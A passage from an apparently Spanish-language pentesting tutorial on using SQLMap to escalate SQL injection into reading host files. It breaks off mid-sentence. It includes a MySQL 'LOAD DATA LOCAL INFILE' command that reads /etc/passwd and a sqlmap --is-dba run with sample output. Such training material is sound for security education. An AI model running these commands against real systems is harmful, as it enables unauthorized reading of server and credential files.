 SQLMap tiene la capacidad de utilizar una SQL Injection para leer y escribir archivos desde el sistema local fuera del DBMS. SQLMap también puede intentar darnos ejecución de comandos directos en el host remoto si tenemos los privilegios adecuados.

---

## File Read/Write

La primera parte de la explotación del sistema operativo a través de una vulnerabilidad de SQL Injection es leer y escribir datos en el servidor host. Leer datos es mucho más común que escribir datos, lo cual está estrictamente privilegiado en los DBMS modernos, ya que puede llevar a la explotación del sistema, como veremos. Por ejemplo, en MySQL, para leer archivos locales, el usuario de la base de datos debe tener el privilegio de `LOAD DATA` e `INSERT`, para poder cargar el contenido de un archivo en una tabla y luego leer esa tabla.

Un ejemplo de tal comando es:

- `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

Aunque no necesariamente necesitamos tener privilegios de administrador de base de datos (DBA) para leer datos, esto se está volviendo más común en los DBMS modernos. Lo mismo se aplica a otras bases de datos comunes. Aún así, si tenemos privilegios de DBA, entonces es mucho más probable que tengamos privilegios de lectura de archivos.

---

## Checking for DBA Privileges

Para verificar si tenemos privilegios de DBA con SQLMap, podemos usar la opción `--is-dba`:

```r
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19
```

Como podemos ver, si probamos eso en uno de los ejercicios anteriores, obtenemos `current user is DBA: False`, lo que significa que no tenemos acceso a DBA. Si intentáramos leer un archivo usando SQLMap, obtendríamos algo como:
